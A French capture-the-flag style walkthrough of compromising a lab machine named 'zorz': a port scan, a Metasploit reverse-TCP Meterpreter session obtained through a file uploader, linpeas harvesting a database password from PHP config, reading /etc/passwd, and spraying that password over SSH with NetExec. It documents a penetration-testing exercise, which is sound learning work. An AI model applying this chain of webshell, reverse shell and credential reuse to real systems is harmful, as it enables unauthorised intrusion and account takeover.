 1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.165
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.165...100%
[+] Scan Nmap 192.168.56.165...100%
 
[+] 80/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.165-tcp.html       |
==========================================================
```

&nbsp;

Le serveur est un `uploader` de fichier

![Capture du 2025-03-16 17-27-58.png](../../_resources/Capture%20du%202025-03-16%2017-27-58.png)

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

Connexion  la webshell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.165
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.165:52845) at 2025-03-16 17:27:25 +0100

(Meterpreter 1)(/var/www/html/uploads3) >
```

&nbsp;

&nbsp;<span style="color: #dddddd;">🤖</span> **Linpeas**

Voyons si `linpeas` trouve des mots de passe

```
www-data@zorz:/tmp$ sh linpeas.sh

╔══════════╣ Searching passwords in config PHP files
$dbpass='toor2600root';
$dbuser='phpmyadmin';

```

&nbsp;

Énumération des utilisateurs

```
www-data@zorz:/tmp$cat /etc/passwd | grep 'bin/bash'
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test du mot de passe sur les 2 utilisateurs

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.165 -u user.txt -p 'toor2600root' --sudo-check
SSH         192.168.56.165  22     192.168.56.165   [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.56.165  22     192.168.56.165   [-] root:toor2600root
SSH         192.168.56.165  22     192.168.56.165   [+] user:toor2600root (Pwn3d!) Linux - Shell access!

```

&nbsp;

Identifiant trouver

| Users | Password |
| --- | --- |
| user | toor2600root |

&nbsp;

&nbsp;

&nbsp;

&nbsp;